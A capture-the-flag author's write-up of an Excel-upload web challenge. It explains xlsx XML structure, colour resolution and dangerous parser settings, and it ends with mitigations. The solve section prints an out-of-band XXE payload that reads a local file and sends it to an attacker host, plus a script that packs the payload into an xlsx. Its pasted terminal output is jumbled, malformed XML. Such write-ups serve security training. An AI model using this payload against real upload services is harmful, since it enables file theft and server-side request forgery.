


> draw draw draw a boat, gently on the sheet, merrily merrily merrily merrily like an artist

## 1. Introduction

Exxecellll is the 2nd challenge I ever made for web, and has gone through many changes but has always led back to the concept that:
- An Excel file (xlsx) is just a zip file of XML files. 

All the information you would ever enter in to the excel files are stored in XML files that looks something like this:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main"
    xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"
    xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" mc:Ignorable="x14ac xr xr2 xr3"
    xmlns:x14ac="http://schemas.microsoft.com/office/spreadsheetml/2009/9/ac"
    xmlns:xr="http://schemas.microsoft.com/office/spreadsheetml/2014/revision"
    xmlns:xr2="http://schemas.microsoft.com/office/spreadsheetml/2015/revision2"
    xmlns:xr3="http://schemas.microsoft.com/office/spreadsheetml/2016/revision3" xr:uid="{1AFDAFBE-20D9-44C5-A9E8-3D234357A22A}">
    <dimension ref="A1:E20"/>
    <sheetViews>
        <sheetView tabSelected="1" workbookViewId="0">
            <selection activeCell="G14" sqref="G14"/>
        </sheetView>
    </sheetViews>
    <sheetFormatPr defaultRowHeight="14.25" x14ac:dyDescent="0.45"/>
    <sheetData>
        <row r="1" spans="1:5" x14ac:dyDescent="0.45">
            <c r="A1" s="1"/>
            <c r="B1" s="2"/>
            <c r="C1" s="3"/>
            <c r="D1" s="4"/>
        </row>
        <row r="2" spans="1:5" x14ac:dyDescent="0.45">
            <c r="A2" s="4"/>
            <c r="B2" s="5"/>
            <c r="C2" s="6"/>
            <c r="D2" s="7"/>
        </row>
        <row r="13" spans="1:5" x14ac:dyDescent="0.45">
            <c r="E13" s="9"/>
        </row>
        <row r="20" spans="2:2" x14ac:dyDescent="0.45">
            <c r="B20" s="8"/>
        </row>
    </sheetData>
    <pageMargins left="0.7" right="0.7" top="0.75" bottom="0.75" header="0.3" footer="0.3"/>
</worksheet>
```

So I wanted to make a challenge where the xml file of an Excel file is parsed through an vulnerable parser, to trigger an XXE. I didn't want it too obvious on how the data is read and reflected, so I looked up more about how Excel store and display colour. This is then displayed back to the user to let them make drawings on the website.


---
## 2. Excel File Structure (XML)

You can try to  rename an `.xlsx` to `.zip` and extract it out to view how the files are structure, as shown below for my demo_zip.xlsx file:

```bash
demo_zip/
├── _rels/
│   └── .rels
├── docProps/
│   ├── app.xml
│   └── core.xml
├── xl/
│   ├── _rels/
│   │   └── workbook.xml.rels
│   ├── theme/
│   │   └── theme1.xml
│   ├── worksheets/
│   │   └── sheet1.xml
│   ├── styles.xml
│   └── workbook.xml
└── [Content_Types].xml
```

**Files we care about right now:**
- `xl/worksheets/sheet1.xml`
- `xl/styles.xml`
- `xl/theme/theme1.xml
(These are the files containing the colour information for cells)
---

## 3. Why XML files might be vulnerable?

XML is just text, something to store data like a JSON file. The actual part that is dangerous is how the XML parser is configured. Most modern parser have these dangerous configs turned off like:
1. Resolve External Entity (Allows the parser to read your system files)
2. Load DTD files (Allow the parser to fetch external configurations, possibly the attackers and load it)
3. Allow Network Access (Allow the parser network access in and out of the network)

### 3.1 What is a XML Parser?

An XML parser is the library that reads the actual XML text and turns it into a computer readable data structure that your code can work with.

Below are actually some of the dangerous configuration for these parsers:

| Feature                                          | What it does                                                           | Risk                                                                                  |
| ------------------------------------------------ | ---------------------------------------------------------------------- | ------------------------------------------------------------------------------------- |
| **DTD loading**                                  | Loads the document type definition (may reference external files/URLs) | Triggers XXE/SSRF; path disclosure                                                    |
| **External Entities** (`<!ENTITY … SYSTEM "…">`) | Lets XML include content from files/URLs                               | File reads (`file:///etc/passwd`), SSRF (`http://169.254.169.254`), RCE in rare cases |
| **Parameter Entities** (in DTDs)                 | Entities used inside DTDs                                              | Same risks, often bypass filters                                                      |
| **Entity expansion**                             | Replaces entity references (`&foo;`) with their values                 | **Billion laughs** (DoS via exponential expansion)                                    |
| **XInclude**                                     | Pulls in external XML parts                                            | SSRF/file read                                                                        |
| **Schema/XSLT with external fetch**              | Retrieves remote schemas or stylesheets                                | SSRF/file read                                                                        |
| **Network access**                               | Lets the parser fetch URLs                                             | Enables all of the above over the network                                             |

---
## 4. How the Challenge worked:
1. The website takes in an Excel file (xlsx)
2. Parses the Background colour of Cell A-1 to L-32
3. Displays back to the user mapping the cell background fill colour to the corresponding square at the bottom of the website

The ideas here was for the player to realize that:
- How do I manipulate an Excel file data?
- Research and find out that an Excel file store data in xml files
- What xml files in the excel stored and display the background fill colour for the cells
- Manipulate the parsed xml files to perform an OOB XXE attack by injecting the malicious payload into the parsed xml file and submitting it.
   


---
## 5. How Background Color Is Stored

> **General Flow:**  
> `sheet1.xml` → style index `s` → `styles.xml` (`cellXfs`) → `fillId` → `styles.xml` (`fills`) → `fgColor` → `theme1.xml` (maybe) + **tint** → final `#RRGGBB`

### 5.1 `sheet1.xml`

```xml
<row r="1">
  <c r="A1" s="1"/>
  <c r="B1" s="2"/>
  <c r="C1" s="3"/>
</row>
```

This is where the Cell information (e.g. A1, B3) are stored:
- `r="A1"` is the address.
- `s="1"` (style pointer/index) points to style #1 in `styles.xml`’s `<cellXfs>`, used like an index address.
- Missing `s` → treat as `0` (default style, defined in theme.xml).
  
### 5.2 `styles.xml`

**`<cellXfs>`: This is how Excel know what colour belongs to what cell, mapped using style pointer (s)**

```xml
<cellXfs>
  <xf fillId="0" .../>                 <!-- This is s=0 -->
  <xf fillId="2" applyFill="1" .../>   <!-- This is s=1 -->
  <xf fillId="3" applyFill="1" .../>   <!-- This is s=2 -->
</cellXfs>
```

- Index in `<cellXfs>` == the `s` from `sheet1.xml`.
- `fillId` tells us which `<fill>` to use.
  
**`<fills>`: resolve the actual colour**

```xml
<fills>
  <fill><patternFill patternType="none"/></fill>      <!-- id 0 -->
  <fill><patternFill patternType="gray125"/></fill>   <!-- id 1 -->
  <fill>                                              <!-- id 2 -->
    <patternFill patternType="solid">
      <fgColor rgb="FFFFFF00"/>  <!-- ARGB → drop alpha → #FFFF00 -->
    </patternFill>
  </fill>
  <fill>                                              <!-- id 6 -->
    <patternFill patternType="solid">
      <fgColor theme="4" tint="-0.499984740745262"/>
    </patternFill>
  </fill>
</fills>
```

`fgColor` can be:
- `rgb="AARRGGBB"` → strip alpha → `#RRGGBB`
- `theme="N"` (+ `tint`) → map via `theme1.xml`, then apply tint
- `indexed="N"` → which is here for legacy which we will ignore
- 
> Note that: Only `patternType="solid"` becomes a flat background.

### 5.3 `theme1.xml` (theme → RGB)

```xml
<a:clrScheme>
  <a:dk1><a:srgbClr val="000000"/></a:dk1>
  <a:lt1><a:srgbClr val="FFFFFF"/></a:lt1>
  <a:accent1><a:srgbClr val="156082"/></a:accent1>
  ...
</a:clrScheme>
```

Resolver index (start from 0-1-2-3-4-5...):

```
[ lt1, dk1, lt2, dk2, accent1..accent6, hlink, folHlink ]
  0    1    2    3        4 .. 9        10       11
```
- Example: `theme="4"` → `accent1` (e.g., `#156082`).

**Tint math:**
- `tint >= 0`: `new = old*(1-tint) + 255*tint`
- `tint < 0`: `new = old*(1+tint)`  
    Clamp to 0–255, then hex `#RRGGBB`.
    
### 5.4 End-to-end examples from my sample
- **B2**: `s=5` → `fillId=6` → `theme=4`, `tint≈-0.5` → **`#0B3041`**
- **A1**: `s=1` → `fillId=2` → `rgb=FFFFFF00` → **`#FFFF00`**
- **E13**: `s=9` → `fillId=10` → `rgb=FF0070C0` → **`#0070C0`**
    
> So an overall flow would like something like this:
>  `s (style index)` → `fillId` → `fgColor` (`rgb` or `theme(+tint)`) → `#RRGGBB`.

---
## 6. Intended Solve
So from what we observe in the website, xml files from the Excel file like sheet1.xml, styles.xml and theme1.xml are parsed to actually map them on the website. So now we will be crafting an XXE payload and injecting it in one of the xml sheet .
    
### 6.1 Injection Point

- I chose sheet1 as an example but you can use any of the parsed files:
   `xl/worksheets/sheet1.xml` 
   
### 6.2 OOB (out of bound) Exfiltration via Remote DTD

**Attacker hosts the DTD (hosted):**
evil.dtd

```dtd
<!ENTITY % file SYSTEM "file:///flag.txt">
<!ENTITY % x "<!ENTITY send SYSTEM 'http://192.168.2.129:8000/capture/%file;'>">
%x;
```

**sheet1.xml:**

```xml
<!DOCTYPE worksheet [
  <!ENTITY % ext SYSTEM "http://192.168.2.129:8000/evil.dtd">
  %ext;
]>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <dimension ref="A1:E20"/>
  <sheetData>
    <row r="1"><c r="A1" t="inlineStr"><is><t>&send;</t></is></c></row>
  </sheetData>
</worksheet>
```

### 6.4 Injecting the payload
1. You could rename, unzip, modify, rezip, and rename it back to an `.xlsx` file but i will be using an Chatgpt'd script for this, since its more convenient.

```python
# I'll call this file xxe_pack.py
#!/usr/bin/env python3
import argparse
import secrets
import sys
import zipfile
from pathlib import Path

#Edit this if you wnat to change where it is injected
SHEET1_PATH = "xl/worksheets/sheet1.xml"

def replace_sheet(in_path: Path, out_path: Path, sheet_payload: bytes) -> None:
    if not in_path.exists():
        raise FileNotFoundError(in_path)
    with zipfile.ZipFile(in_path, "r") as zin, zipfile.ZipFile(out_path, "w") as zout:
        found = False
        for info in zin.infolist():
            data = zin.read(info.filename)
            if info.filename == SHEET1_PATH:
                found = True
                zi = zipfile.ZipInfo(filename=info.filename, date_time=info.date_time)
                zi.compress_type = info.compress_type
                zi.external_attr = info.external_attr
                zi.create_system = info.create_system
                zout.writestr(zi, sheet_payload)
            else:
                zout.writestr(info, data)
        if not found:
            zi = zipfile.ZipInfo(filename=SHEET1_PATH)
            zi.compress_type = zipfile.ZIP_DEFLATED
            zout.writestr(zi, sheet_payload)

def read_payload_interactive() -> str:
    print("\n=== Paste your sheet1.xml payload or payload for any file (end with Ctrl+Z+Enter on Windows or Ctrl+D on macOS/Linux).")
    print("=== Or type a single line 'EOF' to finish. Leave empty to use the default payload.\n")
    buf = []
    try:
        # If something piped in, read it all.
        if not sys.stdin.isatty():
            return sys.stdin.read()
        # Otherwise, read this line-by-line until EOF sentinel or OS EOF. (Crtl+Z on windows)
        while True:
            line = sys.stdin.readline()
            if not line:
                break  # OS EOF
            if line.strip() == "EOF":
                break
            buf.append(line)
    except KeyboardInterrupt:
        pass
    content = "".join(buf).strip()
    return content

def main(argv=None):
    p = argparse.ArgumentParser(description="Replace xl/worksheets/sheet1.xml in an .xlsx with your payload (interactive-friendly).")
    p.add_argument("input", nargs="?", type=Path, default=Path("demo.xlsx"), help="Source .xlsx (default: demo.xlsx)")
    args = p.parse_args(argv)

    out = args.input.with_suffix(".xxe.xlsx")

    # 1) Decide payload texts
    if args.input:
        pasted = read_payload_interactive()
        if pasted:
            sheet_text = pasted

    # 2) Write output file with replacement
    replace_sheet(args.input, out, sheet_text.encode("utf-8"))

    print(f"\n[+] Wrote: {out}")
    print(f"[+] Replaced: {SHEET1_PATH}")
    print("[i] Upload this file to your Flask app, then GET /xxe-excel?needle=XXE_CANARY")
    return 0

if __name__ == "__main__":
    sys.exit(main())
```

You would need to have a fresh `.xslx` file as a reference, and your payload ready.

```python
python xxe_pack.py demo.xlsx

---Output---
=== Paste your sheet1.xml payload or payload for any file (end with Ctrl+Z+Enter on Windows or Ctrl+D on macOS/Linux).
=== Or type a single line 'EOF' to finish. Leave empty to use the default payload.

<!DOCTYPE worksheet [
  <!ENTITY % ext SYSTEM "http://192.168.2.129:8000/evil1.dtd">

<!DOCTYPE worksheet [
  <!ENTITY % ext SYSTEM "http://192.168.2.129:8000/evil1.dtd">
<!DOCTYPE worksheet [
  <!ENTITY % ext SYSTEM "http://192.168.2.129:8000/evil1.dtd">
  <!ENTITY % ext SYSTEM "http://192.168.2.129:8000/evil1.dtd">
  %ext;
]>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <dimension ref="A1:E20"/>
  %ext;
]>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <dimension ref="A1:E20"/>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <dimension ref="A1:E20"/>
  <sheetData>
    <row r="1"><c r="A1" t="inlineStr"><is><t>&send;</t></is></c></row>
  <sheetData>
    <row r="1"><c r="A1" t="inlineStr"><is><t>&send;</t></is></c></row>
    <row r="1"><c r="A1" t="inlineStr"><is><t>&send;</t></is></c></row>
  </sheetData>
</worksheet>
^Z

[+] Wrote: demo.xxe.xlsx
[+] Replaced: xl/worksheets/sheet1.xml
```

- Upload it and check if there has been any connection on your attacker server and if the flag has been sent to you

---

## 7) Results (Template)

**Server callbacks:**



**Flag:** `flag{this_is_what_you_gonna_be_doing_when_you_get_a_J_O_B}`  

---

## 8) Mitigation for XXE

- **Disable DTD & external entities & dangerous config:**
    
    ```python
    etree.XMLParser(resolve_entities=False, load_dtd=False, no_network=True)
    ```
- Treat uploaded Office docs as untrusted; don’t feed attacker XML into XXE-capable parsers.    

